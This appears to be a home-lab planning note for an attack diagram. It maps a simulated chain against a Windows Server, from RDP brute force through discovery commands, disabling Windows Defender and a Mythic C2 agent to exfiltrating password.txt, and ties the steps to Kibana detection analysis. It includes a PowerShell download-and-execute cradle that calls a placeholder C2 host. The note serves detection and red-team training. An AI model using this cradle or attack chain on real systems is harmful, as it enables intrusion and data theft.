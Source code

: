 
## Introduction

Goal: Create an attack diagram that outlines the sequence of actions taken to compromise a target Windows Server, establish a C2 connection, and exfiltrate data. The diagram will be used as a visual plan for simulating and analyzing the attack.

Tool: draw.io (for creating the diagram)

---

## Components of the Diagram

- **Attacker Laptop (Kali Linux)**
    
    - Color: Red
    - Role: Launch brute force and control the attack.
        
- **Windows Server (Target Machine)**
    
    - Role: System to be compromised via RDP brute force.
        
- **Mythic C2 Server**
    
    - Color: Red
    - Role: Command and control platform for managing the compromised machine.
        
- **Internet**
    
    - Role: Communication channel between attacker and target.
        
- **SSH Server (optional)**
    
    - Role: Potential future target.
        

---

## Attack Phases

### Phase 1: Initial Access

- Method: RDP brute force attack from attacker’s Kali Linux machine.
- Target: Windows Server.
- Goal: Gain successful authentication into the target system.

`event.code: 4625 (Failed) event.code: 4624 (Success)`

---

### Phase 2: Discovery

- After gaining access, the attacker runs basic reconnaissance commands to learn about the system:
    
    `whoami ipconfig net user net group`
    
- Goal: Identify user permissions, network configuration, and system information.

---

### Phase 3: Defense Evasion

- The attacker disables Windows Defender to bypass security controls.
- Command executed within the RDP session.
- Purpose: Prevent security tools from blocking the next steps.

---

### Phase 4: Execution

- Using PowerShell, the attacker downloads and executes the Mythic agent from the Mythic C2 server:
    
    `IEX (New-Object Net.WebClient).DownloadString('http://<C2_SERVER>/agent.ps1')`
    
- Goal: Install the agent and prepare for C2 communication.

---

### Phase 5: Command and Control (C2)

- The agent establishes a persistent connection back to the Mythic C2 server.
- The attacker now has remote command execution and monitoring capabilities on the target machine.

---

### Phase 6: Exfiltration

- The attacker simulates data theft by downloading a file (e.g., `password.txt`) from the target machine’s Documents folder through the C2 channel.
- This phase completes the full attack chain from initial access to data exfiltration.

---

## Diagram

![[Pasted image 20251018014608.png]]


---

## Final Attack Flow Summary

1. Attacker (Kali Linux) → Brute forces RDP credentials on Windows Server.
2. Attacker logs into Windows Server.
3. Attacker runs discovery commands to learn about the environment.
4. Attacker disables Windows Defender for evasion.
5. Attacker uses PowerShell to download and execute Mythic agent.
6. Mythic agent connects to C2 server.
7. Attacker downloads `password.txt` as simulated exfiltration.

---

## Outcome 

- This diagram serves as a structured attack plan for future red team simulations.
- The attack steps can later be correlated with log data in Kibana to analyze detection and response capabilities.

**Reference**
https://youtu.be/jv-qiugJGHg?si=ZhkVu0mDS1YYAhDu